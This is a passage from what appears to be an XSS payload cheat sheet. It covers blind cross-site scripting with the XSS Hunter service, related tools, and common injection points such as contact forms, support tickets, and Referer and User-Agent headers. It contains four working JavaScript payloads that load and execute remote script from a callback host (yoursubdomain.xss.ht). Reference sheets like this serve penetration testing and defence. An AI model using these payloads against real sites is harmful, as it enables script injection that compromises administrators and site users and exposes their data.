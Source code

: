 ```html
    }, 2000);
}
</script>
</html>
```

## Blind XSS

### XSS Hunter

Available at [https://xsshunter.com/app](https://xsshunter.com/app)

> XSS Hunter allows you to find all kinds of cross-site scripting vulnerabilities, including the often-missed blind XSS. The service works by hosting specialized XSS probes which, upon firing, scan the page and send information about the vulnerable page to the XSS Hunter service.

```javascript
"><script src=//yoursubdomain.xss.ht></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'https://yoursubdomain.xss.ht\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//yoursubdomain.xss.ht");a.send();</script>

<script>$.getScript("//yoursubdomain.xss.ht")</script>
```

### Other Blind XSS tools

- [sleepy-puppy - Netflix](https://github.com/Netflix-Skunkworks/sleepy-puppy)
- [bXSS - LewisArdern](https://github.com/LewisArdern/bXSS)
- [BlueLotus_XSSReceiver - FiresunCN](https://github.com/firesunCN/BlueLotus_XSSReceiver)
- [ezXSS - ssl](https://github.com/ssl/ezXSS)

### Blind XSS endpoint

- Contact forms
- Ticket support
- Referer Header
  - Custom Site Analytics
  - Administrative Panel logs
- User Agent
  - Custom Site Analytics
  - Administrative Panel logs
- Comment Box
  - Administrative Panel

## Mutated XSS

Use browsers quirks to recreate some HTML tags when it is inside an `element.innerHTML`.
